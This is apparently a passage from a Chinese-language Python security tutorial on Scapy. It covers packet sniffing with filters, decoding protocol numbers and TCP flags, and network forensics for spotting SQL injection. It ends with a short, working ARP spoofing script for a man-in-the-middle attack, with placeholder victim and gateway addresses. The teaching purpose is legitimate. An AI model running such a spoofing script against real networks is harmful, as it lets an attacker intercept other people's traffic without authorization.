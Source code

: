 ```py
>>> sniff (filter = "ip and host 195.221.189.155", count = 2)
<Sniffed TCP: 2 UDP: 0 ICMP: 0 Other: 0>
```

我们可以对 sniff（）的输出进行格式化，使其只适应我们想要查看的数据，并根据需要对其进行排序。我们将使用**“tcp 和（端口 443 或端口 80）”**激活的过滤器并使用**prn=lamba x:x.sprintf**捕获 HTTP 和 HTTPS 流量。我们希望以以下方式显示以下数据：

*   源 IP 和源端口
*   目标 IP 和目标端口
*   标记 TCP 或 TCP 标记
*   TCP 段的有效负载

我们可以看到`sniff`功能的参数：

```py
sniff(filter="tcp and (port 443 or port 80)",prn=lambda x:x.sprintf("%.time% %-15s,IP.src% -> %-15s,IP.dst% %IP.chksum% %03xr, IP.proto% %r,TCP.flags%"))
```

在以下示例中，我们可以看到捕获数据包并应用过滤器后执行 sniff 函数的结果：

![](assets/a04b900f-9919-4596-a73b-d048281311c5.png)

协议输出现在不是 TCP、UDP 等。其十六进制值：

**006 为 IP 协议字段**；它是指数据部分中使用的下一级协议。长度为 8 位。在这种情况下，十六进制（06）（00000110）=十进制中的 TCP 将是 6。

2, 16, 18, 24, ... 是 TCP 标头的标志，在本例中以十六进制格式表示。例如，18 将是二进制 11000，正如我们已经知道的，这将是激活的 ACK+PSH。

# 基于 scapy 的网络取证

Scapy 还可用于执行 SQL 注入攻击的网络取证或从服务器提取 ftp 凭据。通过使用 Python scapy 库，我们可以识别攻击者何时/何地/如何执行 SQL 注入。借助 Python scapy 库，我们可以分析网络数据包的 pcap 文件。

With scapy, we can analyze networks packets and detect whether an attacker is performing a SQL injection.

我们将能够分析、截获和剖析网络数据包，并重用其内容。我们有能力利用我们捕获或生成的信息处理 PCAP 文件。

例如，我们可以为 ARP MITM 攻击开发一个简单的脚本。

您可以在**`arp_attack_mitm.py`**文件中找到以下代码：

```py
from scapy.all import *
import time

op=1 # Op code 1 for query arp
victim="<victim_ip>" # replace with the victim's IP
spoof="<ip_gateway>" # replace with the IP of the gateway
mac="<attack_mac_address>" # replace with the attacker's MAC address

arp=ARP(op=op,psrc=spoof,pdst=victim,hwdst=mac)

while True:
 send(arp)
 time.sleep(2)
```
